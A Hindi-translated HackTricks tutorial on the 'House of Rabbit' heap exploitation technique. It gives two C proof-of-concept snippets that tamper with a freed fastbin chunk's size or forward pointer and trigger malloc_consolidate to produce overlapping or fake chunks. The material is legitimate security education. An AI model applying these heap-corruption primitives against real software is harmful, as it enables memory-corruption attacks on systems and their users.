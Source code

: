 # House of Rabbit

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github repos पर PRs सबमिट करके।

</details>

### आवश्यकताएँ

1. **फास्टबिन fd पॉइंटर या साइज़ को संशोधित करने की क्षमता**: इसका मतलब है कि आप फास्टबिन में एक चंक के फॉरवर्ड पॉइंटर या उसका साइज़ बदल सकते हैं।
2. **`malloc_consolidate` को ट्रिगर करने की क्षमता**: इसे बड़े चंक को आवंटित करके या शीर्ष चंक को मर्ज करके किया जा सकता है, जिससे हीप को चंक को समेटने के लिए मजबूर किया जाता है।

### लक्ष्य

1. **ओवरलैपिंग चंक बनाएं**: एक चंक को दूसरे के साथ ओवरलैप करने के लिए, जिससे और हीप में हस्तक्षेप किया जा सके।
2. **नकली चंक बनाएं**: एक नकली चंक को एक वैध चंक के रूप में दिखाने के लिए एलोकेटर को धोखा देने के लिए।

## हमले के चरण

### POC 1: एक फास्टबिन चंक का साइज़ संशोधित करें

**उद्देश्य**: एक ओवरलैपिंग चंक बनाएं, एक फास्टबिन चंक के साइज़ को मानिपुलेट करके।

* **चरण 1: चंक आवंटित करें**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **चरण 2: चंक मुक्त करें**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **कद चंक का संशोधन करें**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **चरण 4: `malloc_consolidate` को ट्रिगर करें**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
एक बड़े चंक को आवंटित करने से `malloc_consolidate` फ़ंक्शन को ट्रिगर होता है, जो फास्टबिन में छोटे चंक को मर्ज करता है। `chunk1` का मनिपुलेटेड साइज़ `chunk2` के साथ ओवरलैप होने का कारण बनता है।

कंसोलिडेशन के बाद, `chunk1` `chunk2` के साथ ओवरलैप होता है, जिससे आगे की उत्पीड़न की जा सकती है।

### POC 2: FD पॉइंटर को संशोधित करें

**उद्देश्य**: फास्टबिन fd पॉइंटर को मनिपुलेट करके एक नकली चंक बनाएं।

* **चरण 1: चंक्स को आवंटित करें**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**व्याख्या**: हम दो चंक्स आवंटित करते हैं, एक छोटा और एक बड़ा, ताकि हैप को फेक चंक के लिए सेट किया जा सके।

* **चरण 2: फेक चंक बनाएं**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **कदम 3: चंक 1 को नि:शुल्क करें**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**स्पष्टीकरण**: हम `chunk1` को मुक्त करते हैं, जिसे त्वरित बिन सूची में जोड़ दिया जाता है।

* **चरण 4: चंक1 का FD संशोधित करें**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**स्पष्टीकरण**: हम `chunk1` के फॉरवर्ड पॉइंटर (fd) को हमारे फेक चंक की ओर पहुंचने के लिए बदलते हैं जो `chunk2` के अंदर है।

* **चरण 5: `malloc_consolidate` को ट्रिगर करें**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
एक बड़े चंक को फिर से आवंटित करने से `malloc_consolidate` को ट्रिगर होता है, जो फेक चंक को प्रोसेस करता है।

फेक चंक फास्टबिन सूची का हिस्सा बन जाता है, जिससे यह एक वैध चंक बन जाता है जिसे आगे की उत्पीड़न के लिए प्रयोग किया जा सकता है।

### सारांश

**हाउस ऑफ रैबिट** तकनीक या तो एक फास्टबिन चंक का आकार संशोधित करके ओवरलैपिंग चंक बनाने में शामिल है या fd पॉइंटर को मानक चंक बनाने के लिए मानिपुरेट करने में। यह हमलावारों को हीप में वैध चंक बनाने की अनुमति देता है, जिससे विभिन्न प्रकार की उत्पीड़न संभावित होती है। इन चरणों को समझना और अभ्यास करना आपके हीप उत्पीड़न कौशल को बढ़ाएगा।
